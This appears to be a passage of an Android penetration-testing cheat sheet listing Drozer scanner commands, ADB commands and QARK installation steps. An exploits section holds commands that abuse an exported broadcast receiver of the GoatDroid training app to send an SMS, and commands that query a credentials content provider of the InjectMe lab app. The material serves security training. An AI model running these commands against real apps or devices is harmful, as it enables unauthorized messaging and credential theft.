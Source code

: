```
$ dz> run scanner.provider.injection -a (package name)

# Detect Path Traversal in content providers
$ dz> run scanner.provider.traversal -a (package name)
```



ADB Commands
```
adb shell pm list packages              # List installed packages
adb shell pm path <package>             # Returns path of package
adb shell am start                      # Starts activity
adb shell am startservice               # Starts service
adb shell am broadcast                  # Send a broadcast

adb shell pull <device_path> <local_path>     
adb shell push <local_path> <device_path>

adb install <package>                   # Install pacakge

```


#### QARK

Install [QARK](https://github.com/linkedin/qark)
```
pip2 install qark
qark --help

OR

git clone https://github.com/linkedin/qark
python2 setup.py install
```






#### Exploits

 FourGates Broadcast receivers
```drozen
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver  --extra string phoneNumber 5554 --extra string message "hacked"
```



InjectMe SQL Injection
```
dz> run scanner.provider.injection -a com.elearnsecurity.injectme
dz> run scanner.provider.finduris -a com.elearnsecurity.injectme
dz > run app.provider.query content://com.elearnsecurity.injectme.provider.CredentialProvider/credentials/


adb shell content query --uri content://com.elearnsecurity.injectme.provider.CredentialProvider/credentials/
```
